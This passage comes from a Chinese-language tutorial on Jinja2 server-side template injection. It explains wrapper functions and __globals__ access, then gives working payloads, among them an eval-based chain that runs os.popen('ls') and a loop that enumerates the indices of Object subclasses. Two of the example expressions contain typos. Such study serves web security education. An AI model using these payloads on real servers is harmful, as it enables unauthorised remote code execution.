 如果我们继续在此基础上尝试获取globals属性，结果会发现没有回显。

同样的问题还会出现在其他对象上，根据前一节的研究，还有很多暴露的全局对象，比如`g`，当我们试图调用g的init时也会有上述问题。而这是因为，在Python中，带有"wrapper"字样的函数通常是装饰器（decorator）生成的包装函数。这些包装函数在创建时，其`__globals__`属性通常指向的是装饰器所在模块的全局字典，而不是原始函数所在模块的全局字典，即使包装函数有自己的`__globals__`，它可能并不包含我们期望的模块（比如`os`），因为装饰器可能定义在一个与原始函数不同的模块中。

| **类型**                     | **描述**              | **示例**                   |
| ---------------------------- | --------------------- | -------------------------- |
| `slot wrapper`               | 内置类型的 C 实现方法 | `str.strip`, `list.append` |
| `method-wrapper`             | 特殊方法的包装器      | `__init__`, `__call__`     |
| `builtin_function_or_method` | 内置函数/方法         | `len`, `print`             |
| `wrapper_descriptor`         | 描述符协议包装器      | `__get__`, `__set__`       |

除此之外，一些不需要被用户重写的Python内置方法，比如`__dir__`会存在访问受限，因而也不可获取`__globals__`。因而在SSTI攻击中，我们通常会避免使用这些包装函数，而是寻找一个普通的、非内置的、非包装的函数来获取`__globals__`。

#### `__builtins__`的利用

在Python中，`__builtins__`是一个特殊的模块或字典，它包含了内置的函数、异常和类型。在全局作用域中，`__builtins__`通常是对内置命名空间的引用。在大多数Python环境中，`__builtins__`是 `builtins`模块（Python 3）或 `__builtin__`模块（Python 2）的引用。

例如我们希望利用全局类对象request来获取风险函数，很流畅地进入了`{{request.__class__.__init__.__globals__}}`，然而我们发现其globals中并不存在os模块。于是我们考虑换一种方式来导入os模块。我们可以发现在globals中的builtins中含有另一个风险函数`eval`，我们可以利用eval执行风险python语句从而间接导入os模块，于是就有payload：

```jinja2
{{request.__class__.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}
```

#### 一般化Payload构造

如果上述的情况都无法使用，我们只好考虑用唯一能获取的对象来曲线救国。我们知道Python的基本数据类型也会有相应的对象，类似地，我们可以有如下方法获得`<class 'Object'>`：

```
{{0.__class__.__base__}}
{{''.__class__.__bases[0]__}}
{{"".__class__.__mro[0]__}}
{{g.__class__.__base__}}
```

接着我们会用到一个特殊的魔术方法以返回Object的所有子类：

```
{{"".__class__.__bases__[0].__subclasses__()}}
```

需要注意的是，这个方法返回的是**数组**而不是**字典**，这意味着我们无法通过键值对的方式访问对应的类，只能通过**数字索引**的方式来获取对应的类。这就是SSTI中最传统的方式，由于每个服务器上Python环境都不同，所以含有风险函数的类的索引也不同，因此我们不能盲目的使用以前的payload。下面给出了一个能够获取数字索引的payload：

```jinja2
{% set classes = range.__class__.__base__.__subclasses__() %}
{% for class in classes %}
{{ loop.index0 }}: {{ class.__name__ }} ({{ class.__module__ }})
{% endfor %}
```
